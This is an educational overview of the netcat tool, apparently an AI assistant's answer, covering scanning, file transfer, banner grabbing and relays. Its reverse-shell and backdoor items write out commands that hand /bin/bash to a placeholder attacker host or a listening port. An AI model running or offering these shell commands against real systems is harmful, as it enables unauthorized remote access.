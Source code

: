 `Netcat` (often abbreviated as `nc`) is a versatile networking tool that is often referred to as the "Swiss Army knife of networking." It can be used for a wide range of tasks, from simple data transfer to advanced network troubleshooting and penetration testing. Here’s a breakdown of what you can do with `netcat` and why it’s so useful:

---

### **What Can You Do with Netcat?**

1. **Port Scanning:**
   - `Netcat` can be used to scan for open ports on a target machine.
   - Example:
     ```bash
     nc -zv 192.168.1.100 1-1000
     ```
     - `-z`: Scan without sending data.
     - `-v`: Verbose mode.
     - `1-1000`: Scan ports 1 to 1000.

2. **Chatting Between Two Machines:**
   - As shown earlier, `netcat` can be used to create a simple chat server and client.
   - Example:
     - On one machine: `nc -lvp 5555`
     - On the other machine: `nc <ip> 5555`

3. **File Transfer:**
   - `Netcat` can transfer files between two machines.
   - Example:
     - On the receiver: `nc -lvp 5555 > received_file`
     - On the sender: `nc <receiver-ip> 5555 < file_to_send`

4. **Reverse Shells:**
   - `Netcat` is commonly used in penetration testing to create reverse shells for remote access.
   - Example:
     - On the attacker's machine: `nc -lvp 4444`
     - On the target machine: `nc <attacker-ip> 4444 -e /bin/bash`

5. **Banner Grabbing:**
   - `Netcat` can be used to grab service banners (e.g., HTTP, FTP, SSH) to identify running services.
   - Example:
     ```bash
     nc 192.168.1.100 80
     GET / HTTP/1.1
     Host: 192.168.1.100
     ```

6. **Network Debugging and Testing:**
   - `Netcat` can act as a simple server or client to test network connectivity.
   - Example:
     - Start a server: `nc -lvp 1234`
     - Connect to it: `nc <server-ip> 1234`

7. **Proxy and Relay:**
   - `Netcat` can be used to create a proxy or relay traffic between two machines.
   - Example:
     ```bash
     nc -l -p 1234 | nc 192.168.1.100 4321
     ```

8. **Backdoor Creation:**
   - `Netcat` can be used to create a backdoor on a system (often used in penetration testing).
   - Example:
     ```bash
     nc -lvp 4444 -e /bin/bash
     ```

9. **Remote Administration:**
   - `Netcat` can be used to execute commands remotely on a target machine.
   - Example:
     - On the target machine: `nc -lvp 5555 -e /bin/bash`
     - On the attacker's machine: `nc <target-ip> 5555`

10. **Network Daemon Testing:**
    - `Netcat` can simulate a network daemon for testing purposes.
    - Example:
      ```bash
      while true; do nc -lvp 8080 -c "echo 'Hello, World!'"; done
      ```

---

### **Why Use Netcat?**

1. **Simplicity:**
   - `Netcat` is easy to use and doesn’t require complex configuration. It’s a command-line tool that works on almost all Unix-like systems and Windows.

2. **Versatility:**
   - It can perform a wide range of tasks, from simple file transfers to advanced penetration testing.

3. **Lightweight:**
   - `Netcat` is a small, lightweight tool that doesn’t consume many system resources.

4. **Scriptable:**
   - Since `netcat` is a command-line tool, it can be easily integrated into scripts for automation.

5. **Cross-Platform:**
   - `Netcat` is available on Linux, macOS, Windows, and other operating systems, making it a universal tool.

6. **No Dependencies:**
   - `Netcat` doesn’t require additional libraries or software to function.

7. **Useful for Troubleshooting:**
   - It’s a great tool for diagnosing network issues, testing firewalls, and verifying connectivity.

8. **Penetration Testing:**
   - `Netcat` is widely used in ethical hacking and penetration testing for tasks like creating reverse shells, port scanning, and banner grabbing.

---

### **Security Considerations**
While `netcat` is a powerful tool, it’s important to use it responsibly:
- **Unencrypted Communication:** `Netcat` does not encrypt data, so avoid using it for sensitive information over untrusted networks.
- **Unauthorized Access:** Using `netcat` to gain unauthorized access to systems is illegal and unethical. Always have proper authorization before using it on any network or system.
- **Firewall and IDS Detection:** `Netcat` traffic can be detected by firewalls and intrusion detection systems (IDS), so use it cautiously in real-world scenarios.

---

### **Alternatives to Netcat**
While `netcat` is powerful, there are more advanced tools for specific tasks:
- **`ncat`:** An improved version of `netcat` from the Nmap project, with SSL support and more features.
- **`socat`:** A more advanced tool that can handle multiple connections, protocols, and encryption.
- **`telnet`:** For basic network testing (though less secure and versatile than `netcat`).

---

In summary, `netcat` is a must-have tool for anyone working with networks, whether for troubleshooting, testing, or ethical hacking. Its simplicity and versatility make it a favorite among system administrators, network engineers, and security professionals.
